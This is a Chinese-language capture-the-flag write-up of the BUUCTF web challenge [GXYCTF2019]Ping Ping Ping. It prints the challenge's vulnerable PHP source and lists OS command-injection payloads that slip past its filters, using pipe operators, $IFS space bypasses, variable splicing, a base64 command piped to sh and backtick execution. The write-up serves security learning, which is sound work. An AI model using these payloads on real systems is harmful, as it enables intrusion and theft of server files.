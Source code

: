 ```yaml
---
title: GXYCTF2019 Ping Ping Ping
date: 2020-12-04 20:24:50
categories: ['DROPS']
tags: ['Web','BUUCTF_Web','RCE']
cover: https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/cover/20201120223448.jpg 
---
```


# [GXYCTF2019]Ping Ping Ping

题目链接：https://buuoj.cn/challenges#[GXYCTF2019]Ping%20Ping%20Ping

和DMCTF做的那道**pingpingping**类似，同样是使用管道符构造payload，先使用：

```
?ip=127.0.0.1|ls
```

目录下有两个文件：`flag.php`、`index.php`。首先试出来了空格被过滤，使用以下绕过空格：

```
$IFS
${IFS}
$IFS$1 //$1改成$加其他数字貌似都行
< 
<> 
{cat,flag.php}  //用逗号实现了空格功能
%20 
%09 
```

在linux下反单引号里面的指令会被执行 **\`ls\`**

```
?ip=|cat$IFS`ls`
```

会输出该目录下所有可以打开的文件，可以查看**index.php**的部分源码有哪些过滤：

```php
/?ip=|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "
";
  print_r($a);
}

?>
```

一些基本的符号、空格、bash、任何形式的flag字眼都被过滤了。接下来就是找访问**flag.php**。在网上看了好多的题解，用了好多方法，但是网页输出都为空，原来以为和其他题目一样使用**readflag**的ELF执行文件访问，但是还没成功。其实执行：

```
?ip=|cat$IFS`ls`
```

这个payload的时候文件都已经输出了，我最后在网页源码找到了，原来是被注释了<span class='heimu'>我是傻逼</span>。

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20201205110806.png)

**最后记录下学到的姿势和这道题目的其他思路**：

* 管道符：
  * `|`直接执行后面的语句。
  * `||`如果前面语句错误，执行后面的语句。
  * `&`前面和后面命令都要执行，无论前面真假，
  * `&&`如果前面为假，后面的命令也不执行，如果前面为真则执行两条命令

* 使用以下绕过空格：

```
$IFS
${IFS}
${IFS}$1
$IFS$1 //$1改成$加其他数字貌似都行
<
<> 
{cat,flag.php}  //用逗号实现了空格功能
%20 
%09 //需要php环境
```

* 覆盖源码里的`$a`变量（拼接变量）：

```
/?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php
```

* 使用sh执行脚本：

```
/?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
```

* 内联执行：

```
/?ip=|cat$IFS`ls`
```

>附：大佬整理的博客（内含更多姿势）：[命令执行漏洞利用及绕过方式总结](https://www.ghtwf01.cn/index.php/archives/273/)